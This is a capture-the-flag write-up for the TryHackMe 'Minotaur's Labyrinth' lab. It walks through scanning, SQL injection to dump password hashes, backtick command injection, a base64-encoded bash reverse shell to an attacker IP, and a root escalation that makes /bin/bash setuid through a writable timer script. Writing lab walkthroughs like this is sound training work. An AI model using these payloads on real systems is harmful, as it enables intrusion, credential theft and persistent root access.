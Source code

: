 # Minotaur's Labyrinth

Link: https://tryhackme.com/room/labyrinth8llv

## Flags

There are 4 flags to find.

### What is flag 1?

After starting the box and ensuring connectivity (it should respond to pings) perform initial scanning.
I typically run these nmap scans to start.
```
nmap -sC -sV -v 10.10.27.111 | tee nmap_initial
nmap -p- -v 10.10.27.111 | tee nmap_full
```
```
<...>
Discovered open port 80/tcp on 10.10.27.111
Discovered open port 3306/tcp on 10.10.27.111
Discovered open port 21/tcp on 10.10.27.111
Discovered open port 443/tcp on 10.10.27.111
<...>
```
```
<...>
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
<...>
```
Nmap reveals what is likely a website (ports 80/443) and ftp (port 21) with anonymous access enabled.
Let's connect to ftp first.
```
ftp 10.10.27.111 # (use anonymous as username and anything as password)
```

Here you will find a message.txt and a hidden directory .secret.
Inside the directory is the first flag and a keep_in_mind.txt.

message.txt reads
```
Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur
```

keep_in_mind.txt reads
```
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

### What is flag 2?

Navigating to the webiste reveals a login page.
Viewing the source of the page doesn't reveal much, but looking at the included javascript file (login.js) does reveal something.
```
function pwdgen() {
    a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
    b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
    c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
}
//pwd gen for Daedalus a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8]
//                             |\____/|
///                           (\|----|/)
//                             \ 0  0 /
//                              |    |
//                           ___/\../\____
//                          /     --       \
```

We can run this code manually through the browser's dev-tools console and modify it to log the generated code.
```
a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
console.log(a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8])
```
We now have a username and password to use for the webpage login, lets use it.
Finally, we are redirected to /index.php.
Again looking at the source of the page, we see this comment.
```
<!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->
```
The bottom of the page has a search form for either creatures or people.
Testing with 'Daedalus' shows it working.
Let's load up burp and intercept the request for our people search. (This can also be done through browser tools)
The data that's passed through the request is formatted this way.
```
namePeople=Daedalus
```
Let's attempt a sql injection, since we know the system is using mysql (from the 2nd nmap scan)
```
namePeople=Daedalus"             (returns an empty list)
namePeople=Daedalus'             (returns 500 Internal Server Error, probably on the right track)
namePeople=Daedalus' or 1=1#     (reveals all person data!)
```
The response from our final attempt gives all users and their password hashes.
Pasting these into something like https://crackstation.net/ instantly reveals the password plaintext.
We are likely most concerned with the M!n0taur user account. Let's log out and log back in with their credentials instead.
The webpage now shows us the second flag!

### What is the user flag?

Now that we are logged in as an admin user, we are able to see more links in the navigation bar, specifically a link titled Secret_Stuff.
Clicking this takes us to an echo.php page. Putting anything into the page and clicking 'echo' creates a request which then reloads the page and shows us what we sent.
Since it is likely that the server is running a command off of our input, we can try and escape it somehow and run our own commands.
I tried the following inputs
```
"ls"
'ls'
$(ls)
`ls`       this one works! (https://www.redhat.com/sysadmin/backtick-operator-vs-parens)
```

After trying some other commands, it seems we are limited by which characters get inserted into our submission.
Let's see how exactly we are limited by looking at the php code that get's executed.
```
view-source:http://10.10.27.111/echo.php?search=`cat+echo.php`
```
We can see the regex being used, and it is also confirmed by the hint given on the Room's page.
One way around this is to encode our scripts with base64 and then decode them on the server before executing.
```
`base64 --version`       confirms that the server has base64 installed
```
I used https://gchq.github.io/CyberChef/ but it's also pretty simple to do this on the command line like this.

```
echo 'bash -i >& /dev/tcp/<your ip>/4444 0>&1' | base64
```
And then paste that result into the echo.php page, running it like this.
```
`echo <encoded_script> | base64 -d | tee /tmp/shell.sh`
`/bin/bash /tmp/shell.sh`
```
And we get a shell! Navigating to /home/user reveals the user flag.

### What is the root flag?

Looking back to keep_in_mind.txt revealed the hint we need. Something about a timer.
Looking at the root directory ```cd /``` we see a timers directory.
Inside is a timer.sh which we are allowed to edit.
Inside is this...
```
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
```
Looking at the dontforget.txt file, it's filled with those strings. We can infer the script is constantly running.
Let's change the script to give us a root shell. This can be done in many ways, however here is a relatively simple way.
```
#!/bin/bash
chmod +s /bin/bash
```

And after waiting a bit, we can use a root shell by running
```
/bin/bash -p
```

Root shell! The last flag is inside of /root.
